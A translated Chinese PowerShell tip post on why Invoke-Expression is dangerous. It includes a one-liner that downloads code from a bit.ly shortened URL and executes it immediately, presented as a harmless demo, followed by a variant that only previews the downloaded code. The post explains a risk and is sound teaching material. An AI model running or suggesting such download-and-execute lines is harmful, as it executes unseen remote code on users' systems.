```yaml
---
layout: post
date: 2015-09-17 11:00:00
title: "PowerShell 技能连载 - 为什么 Invoke-Expression 是邪恶的"
description: PowerTip of the Day - Why Invoke-Expression is Evil
categories:
- powershell
- tip
tags:
- powershell
- tip
- powertip
- series
- translation
---
```

`Invoke-Expression` 接受任何字符串输入并将它视为 PowerShell 代码。通过这种方式，您可以动态地创建代码，并执行它。

`Invoke-Expression` 是一个非常危险的命令，因为不仅您可以创建动态的代码。恶意的脚本可以隐藏它的邪恶目的，例如通过 web 站点下载代码。

以下是一个安全并有趣的例子，演示了如何从下载到执行一段代码：

    #requires -Version 3
    
    Invoke-Expression -Command (Invoke-WebRequest -Uri 'http://bit.ly/e0Mw9w' -UseBasicParsing).Content

如果您不希望发生意外，这行代码可以帮您预览将会发生什么。请在 PowerShell ISE 中运行这段代码。它将显示从 internet 下载的 PowerShell 代码，而不是立即执行它：

    #requires -Version 3
    
    $file = $psise.CurrentPowerShellTab.Files.Add()
    
    $file.Editor.text = (Invoke-WebRequest -Uri 'http://bit.ly/e0Mw9w' -UseBasicParsing).Content

<!--more-->
本文国际来源：[Why Invoke-Expression is Evil](http://community.idera.com/powershell/powertips/b/tips/posts/why-invoke-expression-is-evil)
